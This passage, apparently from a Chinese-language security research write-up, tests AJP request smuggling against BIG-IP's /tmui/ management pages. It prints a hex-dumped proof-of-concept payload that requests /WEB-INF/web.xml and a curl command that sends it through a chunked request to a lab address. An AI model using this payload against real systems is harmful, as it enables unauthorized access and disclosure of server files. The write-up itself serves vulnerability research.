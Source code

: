 /tmui/这个目录是不是看起来很熟悉，这就是BIG-IP的流量管理用户页面，感觉离漏洞又近了一步。

### AJP POC测试

现在的问题就变成了如何利用AJP请求走私，我们直接复用网上的AJP走私POC进行测试。

```plain
ubuntu@ubuntu:~$ file poc
poc: data
ubuntu@ubuntu:~$ xxd poc
00000000: 0008 4854 5450 2f31 2e31 0000 012f 0000  ..HTTP/1.1.../..
00000010: 0931 3237 2e30 2e30 2e31 00ff ff00 0161  .127.0.0.1.....a
00000020: 0000 5000 0000 0a00 216a 6176 6178 2e73  ..P.....!javax.s
00000030: 6572 766c 6574 2e69 6e63 6c75 6465 2e72  ervlet.include.r
00000040: 6571 7565 7374 5f75 7269 0000 012f 000a  equest_uri.../..
00000050: 0022 6a61 7661 782e 7365 7276 6c65 742e  ."javax.servlet.
00000060: 696e 636c 7564 652e 7365 7276 6c65 745f  include.servlet_
00000070: 7061 7468 0001 532f 2f2f 2f2f 2f2f 2f2f  path..S/////////
00000080: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000090: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000a0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000b0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000c0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000d0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000e0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000000f0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000100: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000110: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000120: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000130: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000140: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000150: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000160: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000170: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000180: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
00000190: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001a0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001b0: 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f 2f2f  ////////////////
000001c0: 2f2f 2f2f 2f2f 2f2f 2f2f 000a 001f 6a61  //////////....ja
000001d0: 7661 782e 7365 7276 6c65 742e 696e 636c  vax.servlet.incl
000001e0: 7564 652e 7061 7468 5f69 6e66 6f00 0010  ude.path_info...
000001f0: 2f57 4542 2d49 4e46 2f77 6562 2e78 6d6c  /WEB-INF/web.xml
00000200: 00ff
```

直接使用AJP请求走私的方式进行请求，这里要注意，所有走私请求类的漏洞利用都无法稳定利用，所以没利用成功可以多试几次。

这里我们请求`/tmui/login.jsp`这个路由，正常请求会返回200，如果请求走私成功，则会返回404，这里我们可以看到，试过几次后成功让服务器返回404，说明AJP请求走私问题是存在的。

```plain
curl -k -i https://192.168.1.1:8443/tmui/login.jsp -H 'Transfer-Encoding: chunked' --data-binary @poc
```
